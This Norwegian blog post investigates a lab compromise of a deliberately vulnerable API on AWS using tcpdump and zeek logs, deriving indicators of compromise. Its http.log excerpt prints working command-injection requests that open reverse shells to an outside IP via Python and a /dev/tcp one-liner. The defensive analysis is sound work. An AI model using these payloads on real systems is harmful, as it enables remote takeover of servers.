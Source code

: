 ```yaml
---
tittel: Nettverksanalyse i skyen
beskrivelse: Hvordan kan vi oppdage og analysere nettverkshendelser i skyen?
tags: 
 - post
date: 2023-03-05
bilde: /img/nettverksrot.jpg
layout: layouts/post.njk
---
```


I denne posten tester vi nettverksbasert analyse av en skadevareinfeksjon i 
en VM som kjører på AWS. Vi antar at følgende har skjedd. En angriper har på 
mystisk vis skaffet seg tilganng til API-serveren vår kjørt diverse kommandoer der. 
Vi har kjørt en pakkedump 
av trafikken på VM-en, og bruker zeek til å analysere hva som foregår. 

VM-en kjører et API for å generere Chuck Norris-vitser. Denne app'en har en 
injisert sårbarhet som gir angriperen et webshell. Denne demo-app'en kan du 
finne her: [github.com/hakdo/vulnerablenorris](https://github.com/hakdo/vulnerablenorris). Vi bruker tcpdump for å logge nettverksaktivitet på den 
infiserte EC2-instannsen.

## Nedlasting og analyse av datadump
Vi genererer datadumpen ved følgende kommando: 

```
tcpdump -i eth0 -w investigation.pcap
```

Etterpå laster vi ned fila. Dette kan vi for eksempel bruke `scp` til, 
men jeg foretrekker å ganske enkelt kjøre en webserver og laste ned fila via 
nettleseren. Dette oppnår vi enkelt ved hjelp av Python: 

```
sudo python3 -m http.server 80
```
Dette er selvsagt en farlig variant som kjører som root, men det er kun for 
å hente ned fila uten å endre brannmurregler (vi tillater webtrafikk). 

For å få mening ut av datadumpen bruker vi [zeek](https://docs.zeek.org/en/current/quickstart.html#zeek-as-a-command-line-utility). Vi genererer loggfiler basert 
på pcap'en. 

```
2023-03-05_investigation:$ mv ~/Downloads/investigation.pcap .
2023-03-05_investigation:$ zeek -Cr investigation.pcap 
2023-03-05_investigation:$ ls
conn.log		http.log		ssl.log
dhcp.log		investigation.pcap	x509.log
dns.log			ntp.log
files.log		packet_filter.log
```

Første stopp er `conn.log`. Denne fila viser alle nettverkstilkoblingene. 
Vi skal undersøke et par antakelser om sikkerhetsbrudd her: 

- Vi antar at angriperen har direkte fjerntilgang, og dermed er tilkoblet for lengre perioder i gaangen. Vi vil derfor se etter langvarige tcp-sesjoner. 
- Vi har en mistanke om at en sårbarhet i applikasjonen er blitt utnyttet. Vi ønsker derfor å se på http-trafikken. 
- Vi lurer på om angriperen har lastet ned flere verktøy. vi ønnsker derfor også å sjekke DNS-loggen for mistennkelige forespørsler. 

### Langvarige sesjoner
Første stopp er conn.log, og vi bruker verktøyet `zeek-cut` til å 
hente ut det vi er mest interesserte i. Følgende kommando henter ut 
de 10 tilkoblingene med lengst varighet. 

```
zeek-cut -d ts id.orig_h id.orig_p id.resp_h id.resp_p service duration < conn.log | sort -n -r -k 7 |head -n10
```
Resutlatet er som følger: 
```
2023-03-05T21:26:23+0100	18.202.216.51	29442	172.31.6.55	22	-	1386.523980
2023-03-05T21:26:29+0100	18.202.216.51	63325	172.31.6.55	22	-	1369.115168
2023-03-05T21:37:12+0100	212.xxx.xxx.xxx	52300	172.31.6.55	3000	http	370.889356
2023-03-05T21:38:41+0100	172.31.6.55	53000	35.217.6.162	3000	-	281.742295
2023-03-05T21:38:43+0100	212.xxx.xxx.xxx	52310	172.31.6.55	3000	http	279.118042
2023-03-05T21:38:44+0100	212.xxx.xxx.xxx	52311	172.31.6.55	3000	http	279.062357
2023-03-05T21:36:03+0100	212.xxx.xxx.xxx	52297	172.31.6.55	3000	http	156.742007
2023-03-05T21:34:13+0100	212.xxx.xxx.xxx	52290	172.31.6.55	3000	http	136.169114
2023-03-05T21:43:39+0100	212.xxx.xxx.xxx	52350	172.31.6.55	3000	http	70.755425
2023-03-05T21:38:50+0100	172.31.6.55	3000	212.xxx.xxx.xxx	52297	-	68.352013
```
Her er 172.31.6.55 VM-ens interne IP-adresse. 212.xxx... er fra meg selv. 18.202... er fra AWS 
og er min egen SSH-tilkoblinng. Den interessante her er 35.217.6.162. Denne har den interne ip-en 
som opprinnelsesadresse, og trafikken er _utgående_ til 35.217.6.162, mot port 3000. 

Dette er uvanlig, og vi ser også at det ikke er gitt noen "service" for denne trafikken. 

Vi kan filtrere alle tilkoblinger til denne ip-adressen for å få bedre oversikt. Vi ser at vi har 4 
utgående forbindelser til denne ip-en: 

```
2023-03-05_investigation:$ zeek-cut -d ts id.orig_h id.orig_p id.resp_h id.resp_p service duration < conn.log | grep 35.217.6.162
2023-03-05T21:38:41+0100	172.31.6.55	53000	35.217.6.162	3000	-	281.742295
2023-03-05T21:43:40+0100	172.31.6.55	43778	35.217.6.162	3000	-	65.190718
2023-03-05T21:44:57+0100	172.31.6.55	33450	35.217.6.162	3000	-	61.970277
2023-03-05T21:47:33+0100	172.31.6.55	39858	35.217.6.162	3000	-	60.235926
```
Det kan være interessant å se hvor denne ip-en fører uten å kontakte den direkte. Et raskt whois-søk 
viser at dette er en IP fra Google Cloud. 

> Denne loggen gir oss en enkel IoC - en ip-adresse. Vi kan selvsagt blokkere denne i brannmuren, men verdien er ganske begrenset siden det er veldig enkelt for angriperen å bytte til en ny IP, forutsatt at angriperen har en måte å få tilbake kontroll over serveren. 

### http-trafikk
La oss se om vi kan finne mer trafikk relatert til denne indikatoren i http.log. Denne loggen 
inneholder http-trafikk som ikke er kryptert. Vi kan med andre ord lese hele 
forespørselen som er sendt. Igjen er zeek-cut verktøyet vi trenger: 

```
2023-03-05_investigation:$ zeek-cut -d ts id.orig_h method uri< http.log | grep 35.217.6
2023-03-05T21:37:13+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&export RHOST="35.217.6.162";export RPORT=3000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
2023-03-05T21:38:45+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:42:56+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:43:39+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:44:57+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:48:39+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:49:16+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:47:33+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
```
Her er det en del interessant! Vi ser at angriperen kommer fra IP-en 212.xxx.... (altså, min IP...). Vi ser også at dette er 
et forsøk på å sende et bash-shell til 35.217.6.162 på port 3000. Dette er altså et shell som sendes til 
angriperens maskin i Google Cloud! At det dreiser seg om et "reverse shell" bekreftes også av et enkelt Google-søk på 
selve angrepslasten (payload) - `sh -i >& /dev/tcp/35.217.6.162/3000 0>&1`.

> Denne loggen gir oss mye nyttig info til å forsvare oss. Vi har her endepunktet som tillater kommandoinjeksjon. Dette endepunktet bør vi fjerne eller oppdatere raskest mulig. Dette vil fjerne sårbarheten som angriperen utnytter, og ha veldig høy verdi for den som forsvarer denne tjenesten.  

### Er det alltid DNS? 
Til slutt ser vi på DNS-tjeneren. DNS er nyttig på to måter her: 

1. Kan vi se om angriperen forsøker å laste ned flere hackerverktøy? 
2. Kan vi finne direkte tilkoblinger til IP-adresser, som ikke er knyttet til et DNS-oppslag? Dette er normalt sett mistenkelig. 

For den første, kan vi liste alla DNS-queries for domene-navnn (filtrerer bort arpa-adresser): 
```
zeek-cut query < dns.log |grep -v arpa|uniq
github.com
api.chucknorris.io
```
Disse to domenene er ikke særlig mistenkelige i sammenhengen. Hva så med direktetilkoblinger til IP-adresser som ikke finnes i 
DNS-responser? Da kan vi gjøre følgende: 

1. Finn alle tilkoblinger for utgående trafikk fra conn.log
2. For alle ip-adresser, sjekk om det finnes en DNS-forespørsel med denne IP-en i svarfeltet
3. Hvis det ikke finnes noen match, marker IP-adressen som mistenkelig

Som to eksempler kan vi list alle ip-ene vi har utgående trafikk mot. Vi oppdager 104.21.41.162, og 35.217.6.162. 

La oss først sjekke om den første finnes i et svar på en DNS-forspørsel: 
```
zeek-cut query answers < dns.log|grep 140.82.121.3
github.com	140.82.121.3
```
Dette er altså Github - ikke mistenkelig - mens 35.217.6.162 ikke gir noen treff i DNS. 

> Denne typen anomalideteksjon er ganske "støyete" og man vil typisk ha en del trafikk som går utenom DNS, for eksempel til metadata-endepunkter for skyleverandøren. Det vil typisk også være en del trafikk til interne ip-er i samme virtuelle nettverk. 

## Oppsummert
Nettverksanalyser er nyttige også for skytjenester. Normalt sett vil man enten bruke en nettverksbasert IDS direkte, eller 
hente ut pakker midlertidig ved hjelp av en tjeneste i skyleverandøren. For skempel har AWS mulighet til dette for et 
VPC-nettverk, og Azure gjør det mulig å lagre pcap-filer fra en "Network Watcher". 

Zeek er tiltenkt å bruke til sanntidsanalyser av nettverkstrafikk, hvor loggfilene som gennereres 
sendes til en SIEM, hvor man kan lage deteksjonsregler. Verktøyet er også veldig nyttig til å granske 
nettverkshendelser, og gjør relativt enkle analyser mye lettere å gjennomføre enn ved bruk av verktøy 
for mer direkte analyse av pakkedata, som Wireshark. 

Kort oppsummert er typisk analyseflyt: 
1. Sjekk conn.log for mistenkelige data. Langvarige sesjoner, IP-adresser fra uventede steder er en god start. 
2. Bruk http.log dersom det finnes ukrypterte data. Dette er fortsatt relativt vanlig for en del trusselaktører. 
3. Bruk DNS-loggen for å finne mistennkelige oppslag, og anomalier når sett opp mot conn.log. 
